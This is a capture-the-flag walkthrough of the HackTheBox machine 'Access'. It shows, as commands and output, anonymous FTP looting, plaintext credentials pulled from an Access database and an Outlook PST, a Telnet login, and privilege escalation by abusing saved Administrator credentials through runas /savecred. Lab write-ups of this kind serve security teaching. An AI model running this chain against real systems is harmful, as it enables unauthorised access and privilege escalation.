<div align="center">



</div>

## 📌 Overview

Access is an easy-rated Windows machine on HackTheBox. The name is deliberate. Access control systems. A physical security management server sitting on a network with FTP open to anyone, files left in the wrong place, and a Windows Credential Manager holding the keys to everything.

This box teaches three real-world techniques that appear constantly in actual penetration tests — not invented CTF tricks, but mistakes that real environments make. FTP servers with anonymous login enabled and sensitive files left inside. Legacy file formats — Microsoft Access databases and Outlook PST archives — storing credentials in plaintext. And Windows Credential Manager, a built-in OS feature being used exactly as designed, just by the wrong person.

The most important lesson from this machine is about enumeration versus exploitation. IIS 7.5 flagged vulnerable to CVE-2015-1635 early in the scan. It looked like the obvious path. Every available exploit was a DoS crash, not a shell. The real path was anonymous FTP, credential extraction from old files, and abusing a saved Administrator password. Understanding what you have before reaching for an exploit database is the difference between owning the machine and crashing it.

---

## 🛠 Tools Used

```
nmap                    → port and service discovery
mdbtools                → Microsoft Access database parsing on Linux
7za                     → zip archive extraction
readpst                 → PST mailbox archive extraction
telnet                  → remote shell via Telnet protocol
netcat (nc)             → reverse shell listener
python3 -m http.server  → serving payloads to the target
Nishang (Invoke-PowerShellTcp.ps1) → PowerShell reverse shell
```

---

## 🧭 Walkthrough

### Step 1 — Service Discovery (Nmap)

**Goal:** Identify all open ports and understand what attack surface exists before touching anything.

```bash
nmap -p- --min-rate 10000 -Pn 10.129.10.218
```

The `-p-` flag scans all 65535 ports. `--min-rate 10000` pushes nmap to maintain high packet rate — on a CTF box you are not worried about IDS, and missing services on non-standard ports because you only scanned the top 1000 is an easy mistake to avoid. `-Pn` skips host discovery and treats the target as up regardless of ping response.

Three ports open:

```
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http
```



Run a detailed service and version scan against those ports:

```bash
nmap -T4 -sV -A -Pn 10.129.10.218
```

Key findings:

```
21/tcp open  ftp      Microsoft ftpd
23/tcp open  telnet   Microsoft Windows XP telnetd
80/tcp open  http     Microsoft IIS httpd 7.5
|_http-title: MegaCorp
```



Port 23 is Telnet — a remote access protocol from the 1970s that sends everything including credentials in plaintext. Its presence on a box means someone deliberately configured it for remote administration. That makes it a shell target if credentials are found anywhere. Port 21 is Microsoft FTP. Port 80 is IIS 7.5.

Check for the IIS vulnerability:

```bash
nmap -p80 --script http-vuln-cve2015-1635 10.129.10.218
```

```
| http-vuln-cve2015-1635:
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
```



Confirmed vulnerable — but immediately check searchsploit before getting excited:

```bash
searchsploit http CVE-2015-1635
```

```
Microsoft Windows - 'HTTP.sys' (PoC) (MS15-034)           | windows/dos/36773.c
Microsoft Windows - 'HTTP.sys' HTTP Request Parsing DoS   | windows/dos/36776.py
```



Both available exploits are DoS only. They crash the server. The RCE label is misleading. This is not the path. The real path is through FTP.

---

### Step 2 — Web Enumeration

**Goal:** Confirm whether the web server holds any interactive attack surface.

Visiting `http://10.129.10.218` shows a page titled MegaCorp with a server room photograph. No login forms, no navigation, no links. A completely static page.



```bash
nmap -p80 -sV -sC --open 10.129.10.218
```

```
| http-methods:
|_  Potentially risky methods: TRACE
```



TRACE is enabled — an HTTP method that echoes back the exact request including headers, used in Cross-Site Tracing attacks. Not the attack path here, but worth noting in a real engagement. The web server is a dead end. Move to FTP.

---

### Step 3 — FTP Anonymous Login

**Goal:** Determine whether FTP allows unauthenticated access and enumerate what files are exposed.

FTP anonymous login allows anyone to connect using the username `anonymous` and any string as the password — conventionally an email address. It was designed for public file distribution and is frequently left enabled on internal servers where it should not be.

```bash
nmap --script ftp-anon -p21 10.129.10.218
```

```
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
```



Connect and enumerate:

```bash
ftp anonymous@10.129.10.218
```

```
Connected to 10.129.10.218.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
ftp>
```

```
ftp> ls
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
```



`backup.mdb` is a Microsoft Access database — structured data storage, almost certainly containing tables with user records. `Access Control.zip` is an archive named after the machine. Both are immediately interesting.

---

### Step 4 — FTP Binary Mode and File Transfer

**Goal:** Transfer the files intact without corruption.

This is where most people get stuck without understanding why. FTP operates in two modes: ASCII and binary. ASCII mode is the default. In ASCII mode, FTP modifies line endings during transfer — converting between Windows CRLF and Unix LF. This is useful for text files. It is catastrophic for binary files.

A zip archive or an MDB database has bytes throughout that happen to match the ASCII codes for newline characters. ASCII mode sees those bytes and modifies them. The file arrives on your machine silently corrupted — it looks like it transferred, the size appears roughly correct, and there are no error messages. It will not open. It will not unzip. It will not parse.

The fix is one command before downloading:

```bash
ftp> binary
200 Type set to I.
```

Now FTP transfers raw bytes untouched. Every byte that leaves the server arrives intact.

```bash
ftp> cd Backups
ftp> get backup.mdb
226 Transfer complete.

ftp> cd ../Engineer
ftp> get "Access Control.zip"
226 Transfer complete.
```



Both files transferred successfully.

---

### Step 5 — Credential Extraction from backup.mdb

**Goal:** Read the Access database and extract any stored credentials.

MDB is the file format for Microsoft Access — a desktop database application from Microsoft, storing tables, queries, and data in a single file. These files appear constantly on old Windows servers. On Linux, the `mdbtools` package provides command-line tools to read them without needing Windows or a Microsoft Access license.

```bash
sudo apt install mdbtools
```

List all tables in the database:

```bash
mdb-tables -1 backup.mdb
```

The output is a long list of tables from a physical access control system — doors, schedules, employees, alarm logs. This is the backend database for a badge reader system. Among all those tables, two stand out: `auth_user` and `USERINFO`.



Dump the `auth_user` table:

```bash
mdb-export backup.mdb auth_user
```

```
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```



Three accounts with plaintext passwords:

- `admin` : `admin`
- `engineer` : `access4u@security`
- `backup_admin` : `admin`

The `engineer` account has a non-trivial password: `access4u@security`. The naming references both the access control system and security. This password is going somewhere.

---

### Step 6 — Extracting the PST Archive

**Goal:** Access the contents of the password-protected zip using the recovered credentials.

```bash
7za x "Access Control.zip"
Enter password (will not be echoed):
```



Enter `access4u@security` — the `engineer` account password from the database.

```
Everything is Ok
Size: 271360
```



The zip unlocks. Someone used the same password for the access control software account and the file archive. Password reuse is one of the most consistent findings in real penetration tests. A credential found in one place is always worth trying everywhere.

The archive contains: `Access Control.pst`

---

### Step 7 — Reading the PST Mailbox Archive

**Goal:** Extract emails from the Outlook archive and find credentials.

PST (Personal Storage Table) is Microsoft Outlook's format for archiving email, calendar events, contacts, and tasks into a single portable file. Organizations use PST files for mailbox backups, legal holds, and offboarding employees. On Linux, `readpst` converts them into standard MBOX format readable as plain text.

```bash
readpst "Access Control.pst"
```

This produces `Access Control.mbox` in the current directory:

```bash
cat "Access Control.mbox"
```

The mailbox contains one email:

```
From: john@megacorp.com
To: security@accesscontrolsystems.com
Subject: MegaCorp Access Control System "security" account

Hi there,

The password for the "security" account has been changed to 4Cc3ssC0ntr0ller.
Please ensure this is passed on to your engineers.

Regards,
John
```



Credentials: `security` : `4Cc3ssC0ntr0ller`

An email with plaintext credentials, sitting in an Outlook archive, inside a zip file, on an FTP share accessible to anyone without authentication. The entire credential chain from public FTP to valid account required no exploitation — only reading files that should not have been left accessible.

---

### Step 8 — Telnet Shell as security

**Goal:** Authenticate via Telnet using the recovered credentials and capture the user flag.

```bash
telnet 10.129.10.218
```

```
Trying 10.129.10.218...
Connected to 10.129.10.218.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: security
password:
```

Enter `4Cc3ssC0ntr0ller`.

```
*===============================================================*
Microsoft Telnet Server.
*===============================================================*
C:\Users\security>
```



Shell obtained. The `^]` escape character note is standard Telnet behavior informing you that Ctrl+] drops to the Telnet prompt — not an error. Since this is a Windows shell over Telnet, use Windows commands: `dir` instead of `ls`, `type` instead of `cat`.

```
C:\Users\security> cd Desktop
C:\Users\security\Desktop> type user.txt
```



**User flag captured.**

---

### Step 9 — Privilege Escalation Enumeration

**Goal:** Identify what privileges and stored credentials exist for the security account.

Check current privileges:

```bash
whoami /priv
```

```
PRIVILEGES INFORMATION
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```



No SeImpersonatePrivilege, no SeDebugPrivilege. Token impersonation attacks like PrintSpoofer or JuicyPotato are not available. Check group memberships:

```bash
whoami /all
```

```
User Name        SID
access\security  S-1-5-21-953262931-566350628-63446256-1001

GROUP INFORMATION
ACCESS\TelnetClients     Alias  S-1-5-21-953262931-566350628-63446256-1000
BUILTIN\Users            Alias  S-1-5-32-545
Mandatory Label\Medium Mandatory Level Label
```



Medium integrity. Standard user. No administrative groups. Check for saved credentials in Windows Credential Manager:

```bash
cmdkey /list
```

```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    User: ACCESS\Administrator
    Type: Domain Password
```



The Administrator's credentials are saved. This is the path forward.

---

### Step 10 — Understanding How the Credentials Got There

**Goal:** Understand the root cause before abusing the misconfiguration.

Navigate to the Public Desktop:

```bash
cd C:\Users\Public\Desktop
dir
```

```
08/22/2018  10:18 PM    1,870 ZKAccess3.5 Security System.lnk
```

A shortcut file for ZKAccess3.5 — the physical access control software whose backend database was in `backup.mdb`. Read the shortcut:

```bash
type "ZKAccess3.5 Security System.lnk"
```

Embedded in the binary output is the command the shortcut runs:

```
runas.exe C:\ZKTeco\ZKAccess3.5\Access.exe /user:ACCESS\Administrator /savecred
```



`runas` with `/savecred` is a Windows convenience feature. When an administrator first ran this shortcut, Windows prompted for the Administrator password and offered to remember it. The administrator typed their password. Windows saved it to Credential Manager. Every subsequent launch used the saved credential silently.

The problem is that `/savecred` does not scope the saved credential to the shortcut — it saves the Administrator password to Credential Manager for the whole machine. Any user on that machine can now call `runas /savecred` with Administrator as the target and Windows will supply the saved password without prompting. This is not a bug. It is the feature working as designed, being used by the wrong person.

---

### Step 11 — Windows Credential Manager Abuse

**Goal:** Use the saved Administrator credential to run commands with full privileges and capture the root flag.

`runas /user:TARGET /savecred` runs any command as TARGET, pulling the password from Credential Manager automatically if a saved credential exists. No knowledge of the actual password is required.

There is one critical behavior to understand before running this: `runas /savecred` spawns a completely new process running as Administrator, separate from the current Telnet session. Your Telnet session remains as `security`. The Administrator process runs, executes whatever it was told, and exits — its output goes nowhere visible because there is no graphical desktop to show a new window in.

The solution is to make the Administrator process write output to a file in a location the `security` account can read:

```bash
runas /user:ACCESS\Administrator /savecred "cmd.exe /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\Public\root.txt"
```

Breaking this down:
- `runas /user:ACCESS\Administrator /savecred` — execute the following as Administrator, using the saved credential from Credential Manager
- `cmd.exe /c ...` — launch cmd.exe, run the command after `/c`, then exit
- `type C:\Users\Administrator\Desktop\root.txt` — read the root flag (only Administrator can access this path)
- `> C:\Users\Public\root.txt` — redirect output to Public, which all users can read

